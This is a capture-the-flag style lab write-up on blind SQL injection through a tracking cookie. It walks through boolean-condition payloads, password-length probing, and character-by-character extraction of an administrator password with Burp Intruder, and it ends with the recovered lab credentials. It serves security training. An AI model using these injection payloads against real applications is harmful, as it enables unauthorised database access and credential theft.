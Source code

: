 ## Lab: Blind SQL injection with conditional responses.

- This lab contains a blind SQL injection vulnerability.
- The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
- The results of the SQL query are not returned, and no error messages are displayed.
- But the application includes a *"Welcome back"* message in the page if the query returns any rows.
- The database contains a different table called users, with columns called username and password. 
- You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

# To solve the lab, log in as the administrator user.

# Visit the front page and use Burp Suite to intercept and modify the request containing the TrackingId.
```Cookie: TrackingId=abcdefgh;```

# Modify the `TrackingId` , changing it to:
```Cookie: TrackingId=abc' AND '1'='1;```
- this will display welcome back message

```Cookie: TrackingId=abc' AND '1'='2;```
- "Welcome back" message does not appear in the response.

# now change payload to this:
```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
- Verify that the condition is true, confirming that there is a table called `users`.
- If we change the value here then it doesnot display welcome back messege.

# Now again change payload that will confirm there is a user called `administrator`.
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
- If there is a administrator user then welcome back is shown otherwise  wecome back will not appear.

# Now we need to determine how many characters are in the password of the administrator user.for this
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```
- condition is true, confirming that the password is greater than 1 character in length.

# Send a series of follow-up values to test different password lengths.
- Use burp repeater to check other wise it takes more time.
- welcome back messege  will appears until the condition is false.
-  found the length of the password, which is in fact 20 characters long.

# the next step is to test the character at each position to determine its value.
- This involves a much larger number of requests, so you need to use Burp Intruder.
- use the bellow payload for this :
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
- This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value.
- Place payload position markers around the final a character in the cookie value.
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```
- To test the character at each position  assume that the password contains only lowercase alphanumeric characters.
- Go to the `Payloads tab`, check that "Simple list" is selected, and under Payload settings add the payloads in the range a - z and 0 -9.You can select these easily using the "Add from list" drop-down.
- To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back".
- To do this, go to the Settings tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".
- Launch attack.

# Now simply  re-run the attack for each of the other character positions in the password, to determine their value. 
- To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:
```TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a```

## I used cluster bomb in payload and run multiple payload set this will get password fast.

## after getting password login as a administrator
```
administrator
gtoq6awgqkpq08zp2yad
```


## lab solved